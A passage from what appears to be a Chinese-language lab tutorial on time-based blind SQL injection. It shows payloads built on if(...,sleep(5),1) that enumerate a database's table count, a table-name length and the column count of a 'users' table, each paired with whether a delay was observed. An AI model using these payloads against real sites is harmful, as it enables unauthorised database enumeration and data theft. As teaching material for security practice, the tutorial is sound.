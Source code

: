 说明数据库名的第一个字符为小写字母d。

…

重复上述步骤，即可猜解出数据库名。

3. 猜解数据库中的表名

首先猜解数据库中表的数量：

```text

1’ and if((select count(table_name) from information_schema.tables where table_schema=database() )=1,sleep(5),1)# 没有延迟



1’ and if((select count(table_name) from information_schema.tables where table_schema=database() )=2,sleep(5),1)# 明显延迟
```

说明数据库中有两个表。

接着挨个猜解表名：

```text

1’ and if(length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=1,sleep(5),1) # 没有延迟



…



1’ and if(length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9,sleep(5),1) # 明显延迟
```

说明第一个表名的长度为9个字符。

采用二分法即可猜解出表名。

4. 猜解表中的字段名

首先猜解表中字段的数量：

```text

1’ and if((select count(column_name) from information_schema.columns where table_name= ’users’)=1,sleep(5),1)# 没有延迟



…



1’ and if((select count(column_name) from information_schema.columns where table_name= ’users’)=8,sleep(5),1)# 明显延迟
```
